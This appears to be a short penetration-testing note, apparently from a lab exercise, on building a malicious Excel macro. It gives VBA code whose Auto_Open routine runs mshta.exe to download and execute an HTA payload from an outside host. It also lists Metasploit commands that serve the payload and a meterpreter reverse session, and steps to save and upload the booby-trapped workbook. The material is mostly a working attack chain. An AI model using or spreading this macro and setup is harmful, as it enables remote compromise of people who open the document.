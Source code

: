 Microsoft Excel Macros?
![[Pasted image 20210517034142.png]]


Creating a macro in Excel.
Macro content:

Note: This macro's .hta file has to be renamed to the one specified in msfconsole. For that, run the commands below it:

```vb
Sub myMacro()
PID = Shell("mshta.exe http://10.50.17.48:8080/CfkPviu1s.hta")
End Sub

Sub Auto_Open()
    myMacro
End Sub
```

```bash
$ sudo msfconsole -q
$ use exploit/windows/misc/hta_server
$ set LPORT 53
$ set LHOST tun0
$ set SRVHOST tun0
$ exploit -j
```

After this, rename to the specified file and save the malicious excel document
Go to the web-server and upload it there.

Once done, you'll have a meterpreter session.